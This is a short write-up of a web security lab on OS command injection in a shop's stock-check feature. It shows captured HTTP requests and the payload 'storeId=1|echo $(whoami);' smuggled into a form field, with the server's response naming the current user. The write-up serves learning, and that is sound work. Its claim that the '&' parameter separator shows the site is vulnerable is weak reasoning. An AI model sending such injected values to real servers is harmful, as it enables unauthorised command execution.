 *This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. To solve the lab, execute the whoami command to determine the name of the current user. *

Greeted with a home screen with all the products. I then clicked on one of the product and noticed that there was a *check stock* feature. 
Clicking on the check stock feature return *62 units*. I then checked my HTTP history in Burp and noticed the following: 

```Burp 
POST /product/stock HTTP/2
Host: 0a3a0068030e31fb8078b77f00a70012.web-security-academy.net
Cookie: session=8LVc8zfF8sdeHVlZmrmbECpmEy9V0pqz
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a0068030e31fb8078b77f00a70012.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a3a0068030e31fb8078b77f00a70012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```

At the bottom, there is the use of the separator `&`. Hence, this site is vulnerable to a OS command injection. I then sent this to the Repeater. I added another separator to execute `echo $(whoami)` modifying the additional separator until I got the user name in the response:
```Burp 
POST /product/stock HTTP/2
Host: 0a3a0068030e31fb8078b77f00a70012.web-security-academy.net
Cookie: session=8LVc8zfF8sdeHVlZmrmbECpmEy9V0pqz
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3a0068030e31fb8078b77f00a70012.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a3a0068030e31fb8078b77f00a70012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1|echo $(whoami);
```

This was the successful response: 

```Burp 
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-oFchTu
```

